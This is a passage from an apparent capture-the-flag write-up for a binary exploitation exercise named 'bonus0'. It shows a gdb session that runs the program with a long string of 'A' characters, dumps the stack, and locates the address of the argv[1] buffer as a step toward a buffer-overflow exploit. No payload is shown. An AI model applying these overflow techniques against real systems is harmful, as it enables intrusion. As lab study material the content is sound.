 We now need av[1] address.

```sh
(gdb) run $(python -c "print 'A' * 1200")
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/user/bonus0/bonus0 $(python -c "print 'A' * 1200")

Breakpoint 1, 0x080485a7 in main ()
(gdb) x/200x $esp
0xbffff288:	0x00000000	0xb7e454d3	0x00000002	0xbffff324
0xbffff298:	0xbffff330	0xb7fdc858	0x00000000	0xbffff31c
0xbffff2a8:	0xbffff330	0x00000000	0x0804824c	0xb7fd0ff4
0xbffff2b8:	0x00000000	0x00000000	0x00000000	0xd13ca4d1
0xbffff2c8:	0xe670a0c1	0x00000000	0x00000000	0x00000000
0xbffff2d8:	0x00000002	0x08048400	0x00000000	0xb7ff26b0
0xbffff2e8:	0xb7e453e9	0xb7ffeff4	0x00000002	0x08048400
0xbffff2f8:	0x00000000	0x08048421	0x080485a4	0x00000002
0xbffff308:	0xbffff324	0x080485d0	0x08048640	0xb7fed280
0xbffff318:	0xbffff31c	0xb7fff918	0x00000002	0xbffff44b
0xbffff328:	0xbffff464	0x00000000	0xbffff915	0xbffff925
0xbffff338:	0xbffff939	0xbffff958	0xbffff96b	0xbffff977
0xbffff348:	0xbffffe98	0xbffffea4	0xbffffef1	0xbfffff07
0xbffff358:	0xbfffff16	0xbfffff2c	0xbfffff3d	0xbfffff46
0xbffff368:	0xbfffff5d	0xbfffff65	0xbfffff74	0xbfffffa1
0xbffff378:	0xbfffffc1	0x00000000	0x00000020	0xb7fdd418
0xbffff388:	0x00000021	0xb7fdd000	0x00000010	0x178bfbff
0xbffff398:	0x00000006	0x00001000	0x00000011	0x00000064
0xbffff3a8:	0x00000003	0x08048034	0x00000004	0x00000020
0xbffff3b8:	0x00000005	0x00000008	0x00000007	0xb7fde000
0xbffff3c8:	0x00000008	0x00000000	0x00000009	0x08048400
0xbffff3d8:	0x0000000b	0x000007da	0x0000000c	0x000007da
0xbffff3e8:	0x0000000d	0x000007da	0x0000000e	0x000007da
0xbffff3f8:	0x00000017	0x00000000	0x00000019	0xbffff42b
0xbffff408:	0x0000001f	0xbfffffe3	0x0000000f	0xbffff43b
0xbffff418:	0x00000000	0x00000000	0x00000000	0x00000000
0xbffff428:	0x37000000	0xc27aa729	0xc2d7176c	0x7ed077bd
0xbffff438:	0x6942ac38	0x00363836	0x00000000	0x00000000
0xbffff448:	0x2f000000	0x656d6f68	0x6573752f	0x6f622f72
0xbffff458:	0x3073756e	0x6e6f622f	0x00307375	0x41414141
0xbffff468:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff478:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff488:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff498:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff4a8:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff4b8:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff4c8:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff4d8:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff4e8:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff4f8:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff508:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff518:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff528:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff538:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff548:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff558:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff568:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff578:	0x41414141	0x41414141	0x41414141	0x41414141
---Type <return> to continue, or q <return> to quit---q
Quit
(gdb) x/x 0xbffff45e
0xbffff45e:	0x73756e6f
(gdb) x/x 0xbffff45d
0xbffff45d:	0x756e6f62
```